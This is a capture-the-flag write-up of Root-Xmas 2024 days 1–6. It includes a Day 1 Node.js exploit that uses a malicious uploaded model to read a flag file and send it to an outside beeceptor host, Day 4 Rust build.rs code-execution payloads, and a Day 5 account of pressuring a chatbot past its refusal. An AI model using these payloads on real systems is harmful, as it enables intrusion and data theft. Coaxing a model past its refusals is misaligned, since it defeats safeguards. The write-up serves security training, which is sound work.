

# Root-Xmas Challenge 2024 - Write-Ups for Days 1 to 6

These challenges were part of the Root-Xmas Challenge which was
organized by [root-me.org](Root-Me). This event was an Advent Calendar
made with CTF challenges.

## Day 1 - Generous Santa (Web)


**Description:** The number of Santa's lunti has increased by 1337 this year, and there are a lot of them! Thanks to this, they've been able to give you some very, very nice gifts. If you can't find what you're looking for, you can even suggest gifts to him - maybe they'll make them in time!

This challenge consists in a web app with 2 main pages:
- The first one to add gifts to Santa's sack,
- The second one to suggest a gift to Santa.


The source code of the web app is given.
```
$ tree
.
├── docker-compose.yml
├── Dockerfile
├── flag.txt
├── README.md
└── src
    ├── app.js
    ├── models
    │   ├── bugatti.js
    │   ├── iphone.js
    │   ├── macbook.js
    │   ├── ps5.js
    │   ├── rolex.js
    │   └── tesla.js
    ├── package.json
    ├── public
    │   ├── css
    │   │   └── style.css
    │   └── images
    │       └── background.jpg
    ├── routes
    │   └── hotte.js
    └── views
        ├── index.ejs
        └── suggest.ejs
```

The main file [./src/01-generous/sources-generous-santa/src/app.js](app.js) is here to handle GET requests
made by the user. Internal operations are then performed thanks to an
API.

The interesting part hinges in the API routes, handled by `hotte.js`.
```javascript
const express = require('express');
const fs = require('fs');
const path = require('path');
const multer = require('multer');
const router = express.Router();

const storage = multer.memoryStorage();
const upload = multer({ storage: storage });

router.post('/add', async (req, res) => {
    const { product } = req.body;

    try {
        const Gift = require(`../models/${product.toLowerCase()}`);
        const gift = new Gift({ name: product, description: `Description of ${product}` });
        output = gift.store();
        res.json({ success: true, output: output });
    } catch (error) {
        res.status(500).json({ message: `Error adding the product ${product}. ${error.message}` });
    }
});

router.post('/suggest', upload.single('photo'), (req, res) => {
    const { name } = req.body;

    if (!name || !req.file) {
        return res.status(400).json({ message: 'Name and photo are required.' });
    }

    const now = new Date();
    const dateStr = now.toISOString().split('T')[0];
    const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
    const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);

    fs.mkdirSync(tempDir, { recursive: true });

    const tempPath = path.join(tempDir, req.file.originalname);

    fs.writeFile(tempPath, req.file.buffer, (err) => {
        if (err) {
            return res.status(500).json({ message: `Error saving the image: ${err.message}` });
        }
        res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
    });
});

module.exports = router;
```

We have two interesting things there:
- Suggesting gifts (POST requests to `/api/suggest`) allows us to
  upload arbitrary files in temp directories,
- When adding a gift to Santa's sack (POST request to `/api/add`), its
  description is fetched from a model in `models`. The `product`
  parameter is not sanitized. Thus we can basically include arbitrary
  JS files on the server by passing `../../../../path/to/file.js` as
  `product` parameter.
  
We have then an attack scenario: upload a malicious JS model using
`/api/suggest`, then include it using `/api/add`.

All the legitimate models have a similar structure: they use Mongoose schemas to
represent each available gift.
```javascript
const mongoose = require('mongoose');

const bugattiSchema = new mongoose.Schema({
    name: { type: String, default: 'Bugatti' },
    description: { type: String, default: 'A luxury high-performance sports car.' }
});

bugattiSchema.methods.store = function() {
    console.log('Bugatti stored in the sack.');
    return this;
};

module.exports = mongoose.model('Bugatti', bugattiSchema);
```

When we add a gift, its method `store` is executed. Hence, it is a
good target to insert our payload in our malicious model. Here is the
whole file `pwn.js` I uploaded to the server: it reads the flag file
and exfiltrates it to a beeceptor endpoint.

```javascript
const mongoose = require('/usr/app/node_modules/mongoose');

const fs = require('fs');

const pwnSchema = new mongoose.Schema({
    name: { type: String, default: 'Pwn' },
    description: { type: String, default: 'A very malicious exploit.' }
});

pwnSchema.methods.store = function() {
    const fs = require('fs');
    fs.readFile('/flag.txt', 'utf8', (err, data) => {
	if (err) {
	    console.error(err);
	    return;
	}
	const https = require('https');

	https.get(`https://spikeroot.free.beeceptor.com?flag=${data}`);
	return;
    });
    return this;
};

module.exports = mongoose.model('Pwn', pwnSchema);
```

Finally, we can write a Python script to upload the poisoned gift and
add it to Santa's sack thanks to the API.

```python
import requests
import json

url = 'http://dyn-01.xmas.root-me.org:36038'

files = {'photo': open('pwn.js','rb')}
values = {'name': 'Exploit'}

r = requests.post(url + '/api/suggest', files=files, data=values)

print(r.text)

filename = json.loads(r.text)["photoPath"]

r = requests.post(url + '/api/add', data={'product': '../../../../' + filename[:-3]})

print(r.text)
```

And we finally receive the flag on the beeceptor endpoint.


**FLAG:** `RM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}`

## Day 2 - Wrapped Packet (Network)


**Description:** According to our information, one of our auditors'
workstations has been compromised, and some even claim that data has
been exfiltrated. Here's a network capture from the suspected
workstation. Can you confirm the diagnosis made by our experts?

For this challenge, we have a big pcapng file (19 MB). It contains quite a lot
of data from different protocols ; it might be easy to fall into
rabbit holes. 

The challenge description hints us on the track of data
exfiltration. Some ICMP packets indeed catch our attention: they
contain some hex characters that seem to represent ASCII data.
Moreover, ICMP messages are a common vector to exfiltrate data.

(screenshot)

To deal more easily with these packets, we can keep only ICMP traffic
from the pcapng using tshark. The packets used for exfiltration are
ping packets, thus data is sent back to the exfiltrating machine. To
avoid duplicates, we only keep data coming from IP 212.129.38.224.

`tshark -r chall.pcapng -Y "ip.dst == 212.129.38.224 and icmp" -z flow,icmp,network -T fields -e data -w output.bin`

The resulting output in `output.bin` can then be parsed thanks to a
Python script (stripping headers and extracting the 16 bytes of
effective data in each packet)

```python
with open("output.bin","rb") as f:
    data = f.read()
    packets = data.split(b'\x52\x54\x00\x12\x35\x02\x08\x00')
    payload = b''
    for p in packets[1:]:
        payload += bytes.fromhex(p[50:66].replace(b'\x00',b'0').decode())
    print(payload.decode())
```

```
$ python solve.py
Error: ping: invalid argument: 'www.root-me.org'
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2024.3"
VERSION="2024.3"
VERSION_CODENAME=kali-rolling
ID=kali
ID_LIKE=debian
HOME_URL="https://www.kali.org/"
SUPPORT_URL="https://forums.kali.org/"
BUG_REPORT_URL="https://bugs.kali.org/"
ANSI_COLOR="1;31"
Hey you found me! Well done!RM{M3rry_Chr1stM4s_R00T-M3}
```

**FLAG:** `RM{M3rry_Chr1stM4s_R00T-M3}`.

## Day 3 - Santa's Magic Sack (Web Game Hacking)


**Description:** Santa has developed a web game where you have to
catch presents, and as luck would have it, he's come out on top of the
scoreboard. Can you beat him?

We have a web game where the goal is to move Santa's sack to catch the
gifts.


To get the flag, we have to get a score higher than Santa's score
(13337). Useless to say that it is impossible without cheating :-)


We can unminify the JavaScript source code of the game and take a look
at how the score is sent to the server when the game ends.

An interesting piece of code catches our attention:

```javascript
var Md = hf.exports;
const gf = Rf(Md),
Ud = 'S4NT4_S3CR3T_K3Y_T0_ENCRYPT_DATA';
function Wd(e) {
  const t = JSON.stringify(e);
  return gf.AES.encrypt(t, Ud).toString()
}
function $d(e, t) {
  const r = Math.floor(Math.random() * 9) + 1,
  n = `${ e }-${ t }-${ r }`;
  return {
    checksum: gf.SHA256(n).toString(),
    salt: r
  }
}
async function Vd(e, t) {
  const {
    checksum: r,
    salt: n
  }
  = $d(e, t),
  l = Wd({
    playerName: e,
    score: t,
    checksum: r,
    salt: n
  });
  try {
    return await(
      await fetch(
        '/api/scores',
        {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json'
          },
          body: JSON.stringify({
            data: l
          })
        }
      )
    ).json()
  } catch (i) {
    return console.error('Error submitting score:', i),
    {
      success: !1
    }
  }
}
```

The score is encrypted along with the player name, a checksum and a
salt. It might be possible to forge a false score and submit it, but I
am lazy and bad at crypto. Instead, I set a breakpoint when entering
the function `Vd`, and I modified the score on-the-fly:


After resuming, we get the flag:


**FLAG:** `RM{S4NT4_H0PE_Y0U_D1DN'T_CHEAT}`

## Day 4 - Build and Drustroy (Misc)



**Description:** I love rust because it's secure and fast. So I want people to do MOAR rust. 
That's why I made a microservice to allow fast and easy remote code compilation.
Send my your code, I'll compile it, and I know for sure I'm safe!

```sh
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

When we load the website, we get an almost blank page with the message
"If you're here, you should read more code."

The source code of the remote server is indeed given for this
challenge.

```
$ tree
.
├── build-and-drustroy
│   ├── Cargo.lock
│   ├── Cargo.toml
│   └── src
│       └── main.rs
├── docker-compose.yml
├── Dockerfile
└── flag.txt
```

The remote is a Web server in Rust. Its full source code (`main.rs`) is available here [./src/04-build_and_drustroy/day4/build-and-drustroy/src/main.rs](main.rs).

The most important part is the code for the endpoint `/remote-build`

```rust
(&Method::POST, "/remote-build") => {
    if !is_content_type_json(req.headers()) {
        let mut response = Response::new(full("Content-Type must be application/json"));
        *response.status_mut() = StatusCode::UNSUPPORTED_MEDIA_TYPE;
        return Ok(response);
    }

    let b: Bytes = req.collect().await?.to_bytes();
    let s: Value = match serde_json::from_slice(&b) {
        Ok(json) => json,
        Err(e) => {
            eprintln!("JSON parsing error: {:?}", e);
            let mut response = Response::new(full("Error parsing JSON"));
            *response.status_mut() = StatusCode::BAD_REQUEST;
            return Ok(response);
        }
    };

    if let Value::Object(map) = s {
        for filename in map.keys() {
            if !filename.ends_with(".rs") || filename.contains("..") {
                let mut response = Response::new(full("Grrrrr(ust)."));
                *response.status_mut() = StatusCode::FORBIDDEN;
                return Ok(response);
            }
        }

        let temp_dir = match tempdir() {
            Ok(dir) => dir,
            Err(e) => {
                eprintln!("Failed to create temp directory: {:?}", e);
                let mut response = Response::new(full("Internal Server Error"));
                *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                return Ok(response);
            }
        };

        let src_dir = temp_dir.path().join("src");
        if let Err(e) = fs::create_dir_all(&src_dir).await {
            eprintln!("Failed to create src directory: {:?}", e);
            let mut response = Response::new(full("Internal Server Error"));
            *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
            return Ok(response);
        }

        for (filename, content) in &map {
            let content_str = match content.as_str() {
                Some(s) => s,
                None => {
                    eprintln!("Content for file {} is not a string", filename);
                    let mut response = Response::new(full("Invalid content type for file"));
                    *response.status_mut() = StatusCode::BAD_REQUEST;
                    return Ok(response);
                }
            };

            let file_path = temp_dir.path().join(filename);
            if let Some(parent) = file_path.parent() {
                if let Err(e) = fs::create_dir_all(parent).await {
                    eprintln!("Failed to create directories for {}: {:?}", filename, e);
                    let mut response = Response::new(full("Internal Server Error"));
                    *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                    return Ok(response);
                }
            }
            if let Err(e) = fs::write(&file_path, content_str.as_bytes()).await {
                eprintln!("Failed to write file {}: {:?}", filename, e);
                let mut response = Response::new(full("Internal Server Error"));
                *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                return Ok(response);
            }
        }

        let cargo_toml = r#"
]
temp_build"
= "0.1.0"
= "2021"

ncies]

        if let Err(e) = fs::write(temp_dir.path().join("Cargo.toml"), cargo_toml).await {
            eprintln!("Failed to write Cargo.toml: {:?}", e);
            let mut response = Response::new(full("Internal Server Error"));
            *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
            return Ok(response);
        }

        let build_output = match Command::new("cargo")
            .args(&["build", "--release"])
            .current_dir(temp_dir.path())
            .output()
            .await
        {
            Ok(output) => output,
            Err(e) => {
                eprintln!("Failed to execute cargo build: {:?}", e);
                let mut response = Response::new(full("Internal Server Error"));
                *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                return Ok(response);
            }
        };

        if !build_output.status.success() {
            let stderr = String::from_utf8_lossy(&build_output.stderr);
            eprintln!("Build failed: {}", stderr);
            let mut response = Response::new(full(format!("Build failed: {}", stderr)));
            *response.status_mut() = StatusCode::BAD_REQUEST;
            return Ok(response);
        }

        let binary_name = if cfg!(windows) {
            "temp_build.exe"
        } else {
            "temp_build"
        };

        let binary_path = temp_dir
            .path()
            .join("target")
            .join("release")
            .join(binary_name);

        if !binary_path.exists() {
            eprintln!("Built binary not found at {:?}", binary_path);
            let mut response = Response::new(full("Built binary not found"));
            *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
            return Ok(response);
        }

        let binary = match fs::read(&binary_path).await {
            Ok(data) => data,
            Err(e) => {
                eprintln!("Failed to read binary: {:?}", e);
                let mut response = Response::new(full("Internal Server Error"));
                *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                return Ok(response);
            }
        };

        let response = Response::builder()
            .status(StatusCode::OK)
            .header("Content-Type", "application/octet-stream")
            .header("Content-Disposition", "attachment; filename=\"binary\"")
            .body(full(binary))
            .unwrap();

        return Ok(response);
    }

    let mut response = Response::new(full("Invalid JSON structure"));
    *response.status_mut() = StatusCode::BAD_REQUEST;
    Ok(response)
}
_ => {
    let mut not_found = Response::new(empty());
    *not_found.status_mut() = StatusCode::NOT_FOUND;
    Ok(not_found)
}
```

When we do a POST request with JSON on this endpoint, the JSON is
parsed as pairs "filename / file content". Each file is created in a
temporary directory, the package is built with `cargo build --release`, and the generated binary is sent to the client.

### Unintended solution

First of all, I hoped to include the contents of the flag in the
compiled binary. 

A Rust package consists at least of a `src/main.rs` file as the main
source file. After some research, I learnt that a file can be included
in a Rust source file thanks to the `include!()` instruction.

The flag path is known thanks to the Dockerfile: 
```
volumes:
      - ./flag.txt:/flag/randomflaglolilolbigbisous.txt
```

Thus, my first payload was `{ 'src/main.rs' : 'include!("/flag/randomflaglolilolbigbisous.txt");' }`

And... it actually worked, as the flag was printed in an error message
from the compiler.

```python
import requests

data = { 'src/main.rs' : 'include!("/flag/randomflaglolilolbigbisous.txt");' }

r = requests.post("https://day4.challenges.xmas.root-me.org/remote-build", json=data, verify=False)

print(r.content.decode())
```

```$ python solve_unintended.py
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1100: InsecureRequestWarning: Unverified HTTPS request is being made to host 'day4.challenges.xmas.root-me.org'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
Build failed:    Compiling temp_build v0.1.0 (/tmp/.tmptqFN1c)
error: expected one of `!` or `::`, found `<eof>`
 --> /flag/randomflaglolilolbigbisous.txt:1:1
  |
1 | OffenSkillSaysHi2024RustAbuse
  | ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ expected one of `!` or `::`

error[E0601]: `main` function not found in crate `temp_build`
 --> src/main.rs:1:50
  |
1 | include!("/flag/randomflaglolilolbigbisous.txt");
  |                                                  ^ consider adding a `main` function to `src/main.rs`

For more information about this error, try `rustc --explain E0601`.
error: could not compile `temp_build` (bin "temp_build") due to 2 previous errors
```

It gave me the flag, and I was happy, but later, the author of the
challenge said that the intended goal was rather to reach RCE on the
remote server. Thus, I tried to do so.

### Intended solution

Rust provides some specific functionality when building packages:
*build scripts*.

https://doc.rust-lang.org/cargo/reference/build-scripts.html

If one add a `build.rs` file at the root of the package, it will be
executed when the package is built.

As a result, we can run arbitrary Rust code on the server when it
builds the package.

To get RCE, I have then put a basic command execution payload in
`build.rs` and replaced `src/main.rs` with a dummy hello world
program.

The main difficulty was to retrieve the output of the executed
commands. I could have used curl to a beeceptor endpoint. Here,
instead, error messages were again my best friends. I used the
`panic!()` instruction to print the output of the command in an error
message:

```python
import requests

data = { 'build.rs' : 'use std::process::{Command, Stdio}; fn main() { let output = Command::new("cat").args(&["/flag/randomflaglolilolbigbisous.txt"]).stdout(Stdio::piped()).output().unwrap(); panic!("{}", String::from_utf8(output.stdout).unwrap()); }', 'src/main.rs' : 'fn main() { println!("Hello, world!"); }' }

r = requests.post("https://day4.challenges.xmas.root-me.org/remote-build", json=data, verify=False)

print(r.content.decode())
```

```
$ python solve_intended.py
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1100: InsecureRequestWarning: Unverified HTTPS request is being made to host 'day4.challenges.xmas.root-me.org'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
Build failed:    Compiling temp_build v0.1.0 (/tmp/.tmpempEi4)
error: failed to run custom build command for `temp_build v0.1.0 (/tmp/.tmpempEi4)`

Caused by:
  process didn't exit successfully: `/tmp/.tmpempEi4/target/release/build/temp_build-e0782682262e3533/build-script-build` (exit status: 101)
  --- stderr
  thread 'main' panicked at build.rs:1:172:
  OffenSkillSaysHi2024RustAbuse

  note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
```

**FLAG:** `OffenSkillSaysHi2024RustAbuse`

## Day 5 - The Friendly Snowman (AI)


**Description:** Santa has hired a new assistant Snowman to help him
with his work, such as distributing presents to children. Let's meet
him and have a chat!

In this challenge, we have to talk with a friendly snowman chatbot.


We can first ask him to give us the flag; but he refuses to do so.


However, if we put emphasis on the emergency of the situation, he
accepts to fulfill our request :-)


**FLAG:** `GH{Sn0wman_1s_4_g00d_guY}`

## Day 6 - Unwrap the Gift (Crypto)


**Description:** Root-Me's Santa is being very generous this year,
giving everyone who comes to see him a little present, but he's made
sure you can't open it until the 25th...

When we connect to the remote, we are greeted with a message from
Santa, and a "wrapped gift" (aka. an encrypted message):

```
--------------------------------------------------
  .-""-.
 /,..___\
() {_____}
  (/-@-@-\)
  {`-=^=-'}
  {  `-'  } Oh Oh Oh! Merry Root-Xmas to you!
   {     }
    `---'
--------------------------------------------------
[SANTA]: Hello player, welcome! Here is your gift for this christmas: d25403e95412f681c87af504174705231be5aa0a8ae8c7caea6dc25657ab1ca6ea58a73f39249dc7827e1d99363d3a84b593cf266f286281eb4e90f6da791aaa
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
--------------------------------------------------
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
y
[SANTA]: Enter the message you wish to wrap:
Merry Christmas Santa! :-)
[SANTA]: Here is your wrapped present: cd7c0adf1d7ce1b6ed41b220257f39561adb8337ad9db4af907590180efa29e1
[SANTA]: Merry Christmas!
```

We can, in return, "wrap a present" (aka. encrypt a chosen message)

We are given the source code of the app [./src/06-unwrap_the_gift/app.py](app.py).

The interesting part is where the gifts are wrapped/unwrapped.

```python
class Gift:
    """
    A custom class to wrap and unwrap gifts
    """
    def __init__(self):
        self.key = urandom(16)
        self.iv = urandom(12)
    
    def wrap(self, data):
        """
        Wrap the data with strong AES encryption
        """
        cipher = AES.new(self.key, 6, nonce=self.iv)
        data = data.encode()
        return hexlify(cipher.encrypt(pad(data, 16))).decode()
    
    def unwrap(self, data):
        """
        Unwrap the data
        """
        cipher = AES.new(self.key, 6, nonce=self.iv)
        return cipher.decrypt(bytes.fromhex(data)).decode()
```

The data is encrypted using AES-CTR.

The weakness of this implementation is that a new AES cipher object is
created each time we encrypt a message. Indeed, all the messages are
encrypted using the same key/IV initially generated, and the counter
will always restart from zero.

As a result, all the messages will be XORed with the same keystream.

To retrieve the flag $m_0$ from its ciphertext $c_0$, it is then
sufficient to encrypt a chosen message $m$ and XOR its ciphertext $c$
with $m$ and $c_0$.

```
$ nc 163.172.68.42 10006
--------------------------------------------------
  .-""-.
 /,..___\
() {_____}
  (/-@-@-\)
  {`-=^=-'}
  {  `-'  } Oh Oh Oh! Merry Root-Xmas to you!
   {     }
    `---'
--------------------------------------------------
[SANTA]: Hello player, welcome! Here is your gift for this christmas: 0ed3526241d4570c998d6d1e170c9a2b70c88e3995ac7284fd1319d2fa1063e28149b4914ae20cb0c835935c2fadc6fc16b78829215aac23706c915450c432e6
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
--------------------------------------------------
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
y
[SANTA]: Enter the message you wish to wrap:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[SANTA]: Here is your wrapped present: 3dff484710fb6232afbe382f2934b41f43f6a811b29940bacb432cfbc42631c2ab7796a272d3399eee06b36d06959db50ad9e6474f34c24d1e02ff3a3eaa5c8853e26d86f052a8374fbe4aa6de30fb0d4c78a56b0f623289ae11930ba3e3a71c
[SANTA]: Merry Christmas!
```


**FLAG:** `RM{D0NT_WR4P_YOUR_GIFTS_W1TH_W3AK_CRYPTOGRAPHY:(}`

